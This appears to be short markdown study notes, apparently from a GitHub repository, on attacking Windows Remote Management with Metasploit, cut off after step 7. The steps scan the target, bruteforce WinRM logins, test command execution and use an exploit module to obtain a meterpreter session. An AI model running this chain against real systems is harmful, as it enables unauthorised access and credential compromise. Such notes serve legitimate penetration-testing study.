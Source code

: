 
### How to exploit `winrm` using `MSF` ?

1. Start `postgresql` and `msfconsole`.

2. Create a workspace.

3. Use `db_nmap` module to scan the target IP, make sure to scan the entire port range.

4. Checking whether `winrm` is enabled in the target system or not, and the authentication methods that are supported.
```
use auxiliary/scanner/winrm/winrm_auth_methods
```

5. Bruteforcing `winrm` login.
```
use auxiliary/scanner/winrm/winrm_login
```

6. Now that we've discovered the credentials, we check if we can run commands.
```
use auxiliary/scanner/winrm/winrm_cmd
```

7. Using an exploit module to obtain a `meterpreter` session..
```
use exploit/windows/winrm/winrm_script_exec
```
- Set `FORCE_VBS` to `true` to enable `VBS` command stager instead or default PowerShell stager.
- This module automatically migrates to a 64 bit process.

8. 